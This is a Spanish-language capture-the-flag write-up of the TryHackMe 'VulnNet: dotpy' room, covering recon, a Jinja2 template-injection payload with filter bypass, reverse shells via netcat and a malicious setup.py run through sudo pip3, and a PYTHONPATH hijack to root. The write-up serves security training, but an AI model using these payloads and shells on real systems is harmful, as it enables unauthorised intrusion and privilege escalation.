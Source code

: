 ```yaml
---
title : "VulnNet: dotpy - Write Up - Español"
date : 2021-07-12T12:39:34+02:00
author : "Lanfran02"
cover : "cover.png"
useRelativeCover : true
description : "Máquina de nivel medio en TryHackMe."
tags : ["SSTI","Python","{{7*7}}","Burpsuite","sudo","TryHackMe"]
---
```


| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/vulnnetdotpy)  | Medio  |  [TheCyb3rW0lf](https://tryhackme.com/p/TheCyb3rW0lf)  |


## Reconocimiento

Primero escaneamos la máquina con `nmap` para verificar qué puertos están abiertos/cerrados/filtrados.

```bash
╰─ lanfran@parrot ❯ map 10.10.43.197                                                                                               ─╯
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-12 12:49 CEST
Nmap scan report for 10.10.43.197
Host is up (0.067s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-title: VulnNet Entertainment -  Login  | Discover
|_Requested resource was http://10.10.43.197:8080/login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.12 seconds
```

¡Bien! Tenemos un servidor web `Python` que se ejecuta en el puerto 8080.

Vamos a navegar hacia el.

La página nos solicita iniciar sesión/registrarnos. Pero intenté navegar a una página que no existía.

![not_registered](not_registered.png)

Mmmm una página 403, que nos obliga a iniciar sesión...

Así que hagámoslo, creemos un usuario ficticio e inicie sesión, para que podamos navegar a esa página de nuevo...

Una vez que haya iniciado sesión, navegue de nuevo a la página que no existe y veamos algo muy interesante.

![logged_in](logged_in.png)

La página nos muestra la página solicitada, tal vez podamos explotar esto...

Así que utilicé el exploit común `{{7 * 7}}` para comprobar si era vulnerable, ¡¡y devolvió 49 !!

![exploit](exploit.png)


## Acceso inicial - Usuario

So we can exploit this with the following code.

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('###CODE###')|attr('read')()}}
```
Where says `###CODE###` you can just put your system command, so let's use `burpsuite` to send the request with `id` and see which user are we

![id](id.png)

Good! We are the `web` user, let's encode our shell to hex so we can run it, here you have the shell and the perfect encoding in a [Cyberchef recipe](https://gchq.github.io/CyberChef/#recipe=To_Hex('%5C%5Cx',0)&input=cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI%2BJjF8bmMgSVAgMTMzNyA%2BL3RtcC9m) !

Send it with burpsuite, and get your reverse shell with `netcat`

![user](user.png)

Perfect! We now have a reverse shell, so let's first run `sudo -l` to see if our user can run a command with any other user
```bash
web@vulnnet-dotpy:~$ sudo -l
Matching Defaults entries for web on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on vulnnet-dotpy:
    (system-adm) NOPASSWD: /usr/bin/pip3 install *
web@vulnnet-dotpy:~$
```
Interesante, podemos ejecutar `pip3 install` con el usuario `system-adm`...

Al leer la página [GTFOBins](https://gtfobins.github.io/gtfobins/pip/#shell), creé otra shell reversa:

```bash
########VICTIMA
web@vulnnet-dotpy:/tmp/project$ cat setup.py 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.160",1338));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
web@vulnnet-dotpy:/tmp/project$ sudo -u system-adm /usr/bin/pip3 install .
Processing /tmp/project

########ATACANTE

╰─ lanfran@parrot ❯ nc -nlvp 1338                                                                                                  ─╯
listening on [any] 1338 ...
connect to [10.9.2.160] from (UNKNOWN) [10.10.43.197] 45420
$ id
uid=1000(system-adm) gid=1000(system-adm) groups=1000(system-adm),24(cdrom)
w$whoami
system-adm
$ cat /home/system-adm/user.txt
THM{[REDACTED]}
$
```

¡Y ahora podemos leer la bandera del usuario!

## Root

Una vez más con este nuevo usuario, ejecuté `sudo -l` y obtenemos este resultado:

```bash
system-adm@vulnnet-dotpy:~$ sudo -l
Matching Defaults entries for system-adm on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
```
Podemos aprovechar una vulnerabilidad de Pythonpath, en estos sencillos pasos:

1. Cree una "biblioteca de python" maliciosa llamada "zipfile.py" (que está siendo utilizada por el script `backup.py`) en`/tmp`
2. Ejecute este comando `sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup.py`

1) 	
```bash
system-adm@vulnnet-dotpy:~$ echo 'import pty; pty.spawn("/bin/bash")' > /tmp/zipfile.py
system-adm@vulnnet-dotpy:~$ cat /tmp/zipfile.py 
import pty; pty.spawn("/bin/bash")
```
2)
```bash
system-adm@vulnnet-dotpy:~$ sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup.py
root@vulnnet-dotpy:/home/system-adm# id
uid=0(root) gid=0(root) groups=0(root)
root@vulnnet-dotpy:/home/system-adm# whoami
root
root@vulnnet-dotpy:/home/system-adm# cat /root/root.txt 
THM{[REDACTED]}
root@vulnnet-dotpy:/home/system-adm# 
```

¡Y hemos rooteado la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!